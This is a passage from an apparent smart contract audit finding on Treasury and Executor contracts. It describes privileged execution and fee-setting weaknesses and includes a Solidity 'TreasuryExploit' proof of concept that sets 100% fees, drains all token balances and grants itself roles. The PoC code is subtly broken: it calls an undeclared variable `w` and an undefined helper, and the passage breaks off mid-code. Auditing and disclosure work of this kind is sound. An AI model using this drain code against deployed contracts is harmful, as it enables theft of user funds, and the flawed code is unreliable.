 - Fee calculations lack validation

2. In `Executor.sol`:
```solidity
function execute302(ExecutionParams calldata _executionParams) external payable onlyRole(ADMIN_ROLE) nonReentrant {
    try
        ILayerZeroEndpointV2(endpoint).lzReceive{ value: msg.value, gas: _executionParams.gasLimit }(
            _executionParams.origin,
            _executionParams.receiver,
            _executionParams.guid,
            _executionParams.message,
            _executionParams.extraData
        )
    {
        // do nothing
    } catch (bytes memory reason) {
        // Alert handling lacks validation
    }
}
```
- Privileged execution without proper validation
- Insufficient gas management
- Weak error handling

### Impact
- Potential for unauthorized fund withdrawal
- Risk of fee manipulation
- Message execution could be manipulated
- Possible DoS through gas exhaustion
- Economic attacks through fee calculations

### Proof of Concept
```solidity
contract TreasuryExploit {
    function demonstrateIssues(address treasury, address executor) external {
        Treasury t = Treasury(treasury);
        Executor e = Executor(executor);
        
        // 1. Fee manipulation
        // Owner can set arbitrary fees
        if (t.owner() == address(this)) {
            t.setNativeFeeBP(10000); // 100% fee
            t.setLzTokenFee(type(uint256).max);
        }
        
        // 2. Withdrawal attack
        // Owner can drain all funds instantly
        if (t.owner() == address(this)) {
            address[] memory tokens = getTokenList();
            for (uint i = 0; i < tokens.length; i++) {
                uint256 balance = IERC20(tokens[i]).balanceOf(address(t));
                t.withdrawToken(tokens[i], address(this), balance);
            }
        }
        
        // 3. Execution manipulation
        // Admin can manipulate message execution
        if (e.hasRole(e.ADMIN_ROLE(), address(this))) {
            // Can grant MESSAGE_LIB_ROLE to malicious contracts
            w.grantRole(w.MESSAGE_LIB_ROLE(), address(this));
            // Can withdraw all tokens
            w.withdrawToken(address(0), address(this), type(uint256).max);
```